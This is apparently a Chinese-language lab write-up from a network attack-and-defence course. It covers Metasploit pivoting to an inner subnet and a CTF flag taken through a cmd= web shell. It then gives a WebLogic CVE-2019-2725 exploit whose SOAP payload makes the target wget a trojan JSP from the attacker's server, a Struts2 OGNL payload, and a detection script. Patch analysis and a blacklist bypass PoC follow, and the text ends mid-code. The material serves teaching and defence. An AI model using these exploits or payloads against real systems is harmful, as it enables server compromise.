

#### 内层网络渗透

##### 🚩攻破靶标 5

仍然和中层一样需要找到跳板主机访问到内层网络，通过升级普通会话到`meterpreter`，随后搭建`autoroute`添加路由表，随后进行存活性扫描，再者是端口扫描。

首先是升级会话和找到连接内层网络的跳板主机，这里因为开太多容器和虚拟机的问题回连速度略慢导致产生了报错，即前一会话仍在等待4433端口的回应时下一会话的payload已经发送过去导致本地端口冲突了，不过不影响，使用`jobs -l`确认后台执行完成后3个会话都升级到了`meterpreter`：

```shell
Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
[*] Starting interaction with 6...
```

接下来，需要对中层网络中的三个主机逐一进行检索和判断是否拥有双网卡，从而利用成为跳板机来访问到内层网络的靶机：

```shell
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)
  7         meterpreter x86/linux  root @ 192.171.84.3  192.168.56.107:4433 -> 192.168.56.1:60618 (192.171.84.3)
  8         meterpreter x86/linux  root @ 192.172.85.3  192.168.56.107:4433 -> 192.168.56.1:60638 (192.171.84.5)
```

由于已经验证过6号会话并不是拥有双网卡的目标跳板主机，剩下的就是对7号和8号会话进行确认，确认到8号会话没有问题后回到`msfconsole`执行`autoroute`的模块添加通过8号会话的路由转发规则，此时就可以直接在`msfconsole`通过`ping_sweep`和`portscan/tcp`来直接进行扫描

通过网卡、路由、ARP 成功发现最深层次的内网 `192.172.85.0/24`

```bash
# 通过网卡、路由、ARP 发现新子网 192.172.85.0/24
$ sessions -c "ifconfig" -i 6,7,8

# portscan through pivot
# 将会话 8 （IP地址为192.171.84.5）升级为 meterpreter shell
$ sessions -u 8
# 新的 meterpreter shell 会话编号此处为 10
$ sessions -i 10
```



我们可以直接在 meterpreter shell 中直接访问 IP 地址来进行枚举测试

```bash
# 利用跳板机 192.171.84.5 的 meterpreter shell 会话「踩点」最终靶标
$ curl http://192.172.85.2
# 发现没安装 curl ，试试 wget
$ wget http://192.172.85.2
# 发现没有命令执行回显，试试组合命令
$ wget http://192.172.85.2 -O /tmp/result && cat /tmp/result
```



得到输出结果，并且提示我们需要通过 `index.php?cmd=ls /tmp` 的方式执行，最后成功得到 `flag5`

```bash
# 发现 get flag 提示
$ wget 'http://192.172.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result"
# index.php?cmd=ls /tmpflag-{bmh6b110165-c5c5-4cc0-9079-f6d3305738c63}
```



至此，整个DMZ主机环境的Flag从外层到中层再到内层均已攻破：


### 4 智能化漏洞威胁监测、漏洞攻击和缓解修复

#### 异常流量检测与防护

使用 Docker 的网络命名空间和网络抓包工具来捕获和分析流量。

- 获取容器的 `PID`（进程ID）

```bash
# 查看容器运行情况
docker ps

docker inspect -f '{{.State.Pid}}' <container_name>
# 请将 <container_name> 替换为要监视流量的容器的名称
```



- 使用 `nsenter` 命令进入容器的网络命名空间

```bash
nsenter -t <container_pid> -n
# 将 <container_pid> 替换为上一步中获取到的容器 PID
```

- 使用网络抓包工具（如 `tcpdump` 或 `tshark`）来捕获和分析流量

```bash
tcpdump -i eth0 -w captured_traffic.pcap
```

这将在容器的 `eth0` 网络接口上捕获流量，并将结果保存到 `captured_traffic.pcap` 文件中



在`captured_traffic.pcap` 文件中可以查看到所有访问到容器的流量



可以查看到疑似远程代码执行的攻击流量

#### 自动化漏洞验证

> 针对**Weblogic CVE-2019-2725**的自动化验证

[**代码地址**](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/tree/main/code/Weblogic%20CVE-2019-2725_validation%20script)

`CVE-2019-2725`是一个`Oracle weblogic`反序列化远程命令执行漏洞，这个漏洞依旧是根据`weblogic`的`xmldecoder`反序列化漏洞，通过针对Oracle官网历年来的补丁构造payload来绕过。

**影响版本** ：
`weblogic 10.x`
`weblogic 12.1.3`

在场景中访问中层网络靶机（已存放**Weblogic CVE-2019-2725**漏洞）



根据其漏洞特性构造[**POC代码**：](./src/poc.py)

检测函数`checking(url)`中，脚本会发送GET请求到目标URL的`/_async/AsyncResponseService`路径，并检查响应状态码。如果状态码为200，表示目标存在CVE-2019-2725漏洞；否则，表示目标不受该漏洞影响。

```python
def checking(url):
  try:
    response = requests.get(url+filename)
    if response.status_code == 200:
      print('[+] {0} 存在CVE-2019-2725 Oracle weblogic 反序列化远程命令执行漏洞'.format(url))
    else:
      print('[-] {0} 不存在CVE-2019-2725 Oracle weblogic 反序列化远程命令执行漏洞'.format(url))
  except Exception as e:
    print("[-] {0} 连接失败".format(url))
    exit()
if options.FILE and os.path.exists(options.FILE):
  with open(options.FILE) as f:
    urls = f.readlines()
    #print(urls)
    for url in urls:
      url = str(url).replace('\n','').replace('\r','').strip()
      checking(url)
elif options.FILE and not os.path.exists(options.FILE):
  print('[-] {0} 文件不存在'.format(options.FILE))
  exit()
else:
  #上传链接
  url = options.URL+':'+options.PORT
  checking(url)
```

**执行脚本**：

```bash
python3 poc.py -f IP_test.txt -p
```


检测出存在`CVE-2019-2725`漏洞

#### 智能化漏洞攻击方案

##### Struts2-cve-2020-17530脚本构造

**[代码地址](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/tree/main/code/Struts2-cve-2020-17530_attack%20script)**

根据分析，Apache Struts 2是一个用于开发Java EE网络应用程序的开源网页应用程序架构。它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。

如果开发人员使用了 `%{…}` 语法，那么攻击者可以通过构造恶意的 `OGNL` 表达式，引发 `OGNL` 表达式二次解析，最终造成远程代码执行的影响。

因此这是一个远程代码执行漏洞，所以可以尝试构造对应的`OGNL`的表达式脚本来尝试攻击。

在场景中，针对暴露的第二个靶机端口我们尝试进行攻击：





根据前文中我们已经构造的payload：

```shell
http://192.168.1.110:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```

尝试在代码中构造这一表达式：


运行后，通过burp抓包能够得到：


Getshell脚本的反弹命令需要进行进行编码转换，所以反弹shell可以使用https://www.ddosi.org/shell/ 在线工具平台转码：


对开放端口运行脚本，成功getshell：


##### Weblogic CVE-2019-2725 攻击脚本构造

[**代码地址**](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/tree/main/code/Struts2-cve-2020-17530_attack%20script)

首先定义HTTP请求的headers和data

```python
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0',
           'SOAPAction': 'Accept: */*',
           'User-Agent': 'Apache-HttpClient/4.1.1 (java 1.5)',
           'content-type': 'text/xml'}
data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>wget {0} -O servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/{1}/war/3.jsp</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>'''.format(options.LOCATE, route(url + url_route + '?info'))

```

获取WebLogic中间件版本目录

```python
#获得weblogic中间的版本目录
def route(url):
  print('[*] 获得路径中')
  try:
    #print('[*] 目标地址:'+url)
    respond = requests.get(url)
    if respond.status_code == 200:
      route = str(respond.text)
      start = route.index('async_response/')
      #print(start)
      if start >= 0:
        start += len('async_response/')
      #print(start)
      end = route.index('/war')
      #print(end)
      #print(route[start:end])
      return route[start:end];
    else:
      print("[-] 路径获取失败")
      exit()
  except Exception as e:
    print("[-]{0}连接失败".format(url))
    exit()
```

实现发送HTTP请求，获得WebLogic中间件版本目录

从攻击者http服务器中下载木马文件

```python
def acquire(url):
  print('[*] 目标地址:'+url)
  print('[*] 攻击者地址:'+options.LOCATE)
  try:
    respond = requests.post(url+url_route,headers=headers,data = data)
    #print(respond.status_code)
    if respond.status_code == 202:
      print('[+] 木马下载成功')
    else:
      print('[-] 下载失败')
      exit()
  except Exception as e:
    print("[-]{0}连接失败".format(url))
    exit()
```

本地启动简易的http服务器，代理木马文件attackjsp.txt

```
python3 -m http.server 8000
```



部署好木马服务器后执行攻击脚本

```bash
python3 exp.py -u <target_url> -p <target_port> -l <service_script>
#<target_url> 替换为目标的URL地址，<target_port> 替换为目标的端口号，<service_script> 替换为服务脚本的位置。
```



木马服务器显示收到请求



此时查看受害者服务器中是否下载了木马程序

```bash
docker ps
docker exec -it ec8fb7023c85 bash

cd user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war
```



#### 漏洞的缓解和修复

##### Weblogic-cve-2019-2725代码层面漏洞分析和修复

[**代码地址**](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice/tree/main/code/Weblogic-cve-2019-2725_fix%20code/FixDemo(cve-2019-2725))

通过我们在场景中的复现能够清楚看到，`Weblogic-cve-2019-2725`的漏洞源于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

我们从Oracle官方漏洞复现源拿到漏洞镜像，根据Oracle的漏洞报告，此漏洞存在于异步通讯服务，通过访问路径`/_async/AsyncResponseService`，判断不安全组件是否开启。`wls9_async_response.war`包中的类由于使用注解方法调用了Weblogic原生处理Web服务的类，因此会受该漏洞影响：



我们继续分析漏洞是如何发送http请求从而获得权限的，在`ProcessBuilder`类中打下断点，可以看到相应的调用栈过程：



我们逐步分析，首先程序是继承自`HttpServlet`的`BaseWSServlet`类，其中的service方法主要用于处理HTTP请求及其响应，通过HTTP协议发送的请求包封装在`HttpServletRequest`类的实例化对象`var1`中



调用`BaseWSServlet`中定义的内部类`AuthorizedInvoke`的`run()`方法完成传入HTTP对象的权限验证过程：


若校验成功，则进入到`SoapProcessor`类的process方法中，通过调用`HttpServletRequest`类实例化对象`var1`的`getMethod()`方法获取HTTP请求类型，若为POST方法，则继续处理请求：


HTTP请求发送至`SoapProcessor`类的`handlePost`方法：

```java
private void handlePost(BaseWSServlet var1, HttpServletRequest var2, HttpServletResponse var3) throws IOException {
    assert var1.getPort() != null;

    WsPort var4 = var1.getPort();
    String var5 = var4.getWsdlPort().getBinding().getBindingType();
    HttpServerTransport var6 = new HttpServerTransport(var2, var3);
    WsSkel var7 = (WsSkel)var4.getEndpoint();
    try {
        Connection var8 = ConnectionFactory.instance().createServerConnection(var6, var5);
        var7.invoke(var8, var4);
    } catch (ConnectionException var9) {
        this.sendError(var3, var9, "Failed to create connection");
    } catch (Throwable var10) {
        this.sendError(var3, var10, "Unknown error");
    }
}
```

**SOAP是一种通信协议**，用于应用程序之间的通信。它是一种轻量的、简单的、基于XML的协议，可以独立于平台和语言进行通信。SOAP定义了数据交互中如何传递消息的规则，比如在HTTP中规定了POST请求的传参方式，在数据类型不同的情况下可以使用不同的参数方式。


在整个进程调用中，`BaseWSServlet`类实例化对象`var1`封装了基于HTTP协议的SOAP消息：


其中`WorkAreaServerHandler`类中的`handleRequest()`方法用于处理访问请求，通过`WlMessageContext`对象var2获取传入的`MessageContext`，调用`var2`对象的`getHeaders()`方法获取传入SOAP消息的Header元素，并最终将该元素传递到`WorkAreaHeader`对象`var4`中


通过上述漏洞调用过程分析，要想有效修复漏洞，需要开发补丁,最直接的方法是在路径`weblogic/wsee/workarea/WorkContextXmlInputAdapter.java`中添加了`validate`方法，即在调用`startElement`方法解析XML的过程中，如果解析到`Element`字段值为`Object`就抛出异常：

```java
private void validate(InputStream is) {
     WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }
```

然而，采用黑名单的防护措施很快就被POC轻松绕过，因为其中不包含任何`Object`元素。尽管经过`XMLDecoder`解析后，这种方法仍然会导致远程代码执行，例如给出一段poc：

```java
<java version="1.4.0" class="java.beans.XMLDecoder">
    <new class="java.lang.ProcessBuilder">
        <string>calc</string><method name="start" />
    </new>
</java>
```

因为其中不包含任何Object元素，但经`XMLDecoder`解析后依旧造成了远程代码执行

因此，我们需要将更多的关键字漏洞加入到黑名单中，从而做到当程序解析到关键字属性的字样时，即设置为异常，object、new、method关键字继续加入到黑名单中，一旦解析XML元素过程中匹配到上述任意一个关键字就立即抛出运行时异常。

但是针对void和array这两个元素是有选择性的抛异常，其中当解析到void元素后，还会进一步解析该元素中的属性名，若没有匹配上index关键字才会抛出异常。而针对`array`元素而言，在解析到该元素属性名匹配class关键字的前提下，还会解析该属性值，若没有匹配上byte关键字，才会抛出运行时异常：

```java
public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
              throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
       String var9 = attributes.getValue("class");
